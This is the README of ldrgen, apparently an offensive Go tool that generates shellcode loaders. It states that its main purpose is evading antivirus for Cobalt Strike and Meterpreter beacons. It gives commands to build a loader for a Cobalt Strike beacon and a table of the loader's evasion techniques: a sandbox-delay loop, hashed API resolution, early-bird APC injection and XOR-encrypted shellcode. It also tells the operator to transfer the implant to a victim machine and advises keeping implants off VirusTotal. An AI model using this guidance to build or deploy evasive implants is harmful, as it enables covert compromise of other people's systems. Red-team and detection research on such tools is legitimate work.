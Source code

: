 # ldrgen

ldrgen is a golang cli tool for rapid generation of shellcode loaders using pre-defined templates.

> ⚠️ this tool is meant to help with running beacon from disk, this does **not** help with evasion for memory scans or post-exploitation- OPSEC considerations are up to the discretion of the operator.

## Getting Started
There are available binaries on the [releases](https://github.com/gatariee/ldrgen/releases) page, or you can build from source for the latest version.

### Releases
Standalone binaries are available, however you will need a `templates` directory to be ingested by the generator. You can find the latest templates from source [here](./templates/) or it should be included as a zip file in the release.

Templates are expected to be in the same directory as where the binary is executed, but you can specify with the `--template` flag.

### Building from Source
```bash
cd ldrgen/src
make build

cd bin
ldrgen --help
```

## Usage
The concept of this tool is quite simple, you provide raw shellcode, as well as a loader token, and the tool will generate the loader source code file for you.

![ldrgen_1](./assets/ldrgen_1.png)

![ldrgen_2](./assets/ldrgen_2.png)

### Calculator Shellcode 
This example will use the `CreateThread` loader token and [boku7's null-free calculator shellcode](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode).

```bash
./ldrgen generate --template [path_to_template_folder] --bin [path_to_shellcode] --output [path_to_output_folder] --loader CreateThread
```
![calc_example](./assets/calc_example_1.png)

The source code of the loader will be generated in the specified output folder along with a generic `makefile` to build the loader, or you can build it yourself.

```bash
make [x64 | x86]
```

![calc_example_2](./assets/calc_example_2.png)

Transfer the implant to your Windows machine, and execute the loader.

![calc_example_3](./assets/calc_example_3.png)

### Usage for AV Evasion
The main purpose of this tool is to help with AV evasion especially when compiling loaders for very highly signatured beacons (e.g cobalt strike, meterpreter), or running post-exploitation tools from disk without being nuked by AV.

The following examples will use the loader token `EarlyBirdAPC_Buffed` which uses the following techniques (in order):

> ✅ All WinAPI function calls are dynamically resolved at runtime from a calculated hash unless otherwise stated, see [hash.py](./templates/Scripts/hash.py) for more information on the hashing algorithm.

#### Early Bird APC via CreateProcessW & QueueUserAPC
| Step | Action | Details | Source |
|------|--------|---------|--------|
| 1 | Sandbox Evasion | Counts to `10000000000`, taking ~30-45 seconds. | [EarlyBirdAPC_Buffed.c](./templates/Source/EarlyBirdAPC_Buffed.c) |
| 2 | API Resolution | Dynamically resolves WinAPIs from `kernel32.dll`. | |
| 3 | Process Creation | Spawns a process (`${ PNAME }`) in a suspended state using `CreateProcessW`. | [EarlyBirdAPC_Buffed.c - Line 213](./templates/Source/EarlyBirdAPC_Buffed.c#L213) |
| 4 | Memory Allocation | Allocates RWX memory in the suspended process with `VirtualAllocEx`, size: `${ SHELLCODE_SIZE }`. | [Shellcode.c - Line 3](./templates/Source/Shellcode.c#L3) |
| 5 | Shellcode Decryption | XOR decrypts the shellcode in memory with key `${ KEY }`. Uses `Xor.c` for decryption. | [EarlyBirdAPC_Buffed.c - Line 236](./templates/Source/EarlyBirdAPC_Buffed.c#236) |
| 6 | Write Shellcode | Writes the shellcode buffer to the allocated memory using `WriteProcessMemory`. | [Shellcode.c - Line 2](./templates/Source/Shellcode.c#L2) |
| 7 | Queue APC | Queues an APC to the suspended thread, resumes it, and waits for process exit with `WaitForSingleObject`. | |
| 8 | Cleanup | Cleans up allocated memory and closes handles. | |


#### Cobalt Strike Beacon
The following is usage of ldrgen to generate a loader for Cobalt Strike's beacon using the `EarlyBirdAPC_Buffed` token.

> ⚠️ In this example, Windows Defender (9/1/2024) is **enabled** and **up-to-date**.

1. Generate the beacon shellcode 
  - Payloads -> Stageless Payload Generator -> Output -> Raw
  - Default output name is: `payload_x64.bin`

    ![cobalt_example_1](./assets/cobalt_example_1.png)

2. Generate the loader
    ```bash
    ldrgen-linux-x64 generate --template ../../templates --bin payload_x64.bin --output implants --loader EarlyBirdAPC_Buffed --enc xor --args "key=2adc118cdd0ae, pname=C:\\\Windows\\\system32\\\cmd.exe"     

    Loader          ->    EarlyBirdAPC_Buffed
    Encoding Type   ->    xor
    Key:            ->    2adc118cdd0ae
    Process Name    ->    C:\\Windows\\system32\\cmd.exe
    ```
    ![cobalt_example_2](./assets/cobalt_example_2.png)

3. Compile the loader
    ```bash
    cd implants && make x64
    ```

    ![cobalt_example_3](./assets/cobalt_example_3.png)

4. Transfer implant to victim machine, and execute the loader.

    ![cobalt_example_4](./assets/cobalt_example_4.png)

5. Check that beacon callback was successful.

    ![cobalt_example_5](./assets/cobalt_example_5.png)

> ⚠️ OPSEC Note: The beacon used and generated has **no in memory evasion** and will 100% be killed if you trigger a memory scan or perform any OPSEC unsafe actions.

![cobalt_example_6](./assets/cobalt_example_6.png)

![cobalt_example_7](./assets/cobalt_example_7.png)


### VT
don't upload your implants to VT if you intend to reuse your implants

![vt_1](./assets/vt_1.png)
https://www.virustotal.com/gui/file/6ff98356931564a9a49f390a9f1bffe032adc118cdd0ae5347c11d63004e362e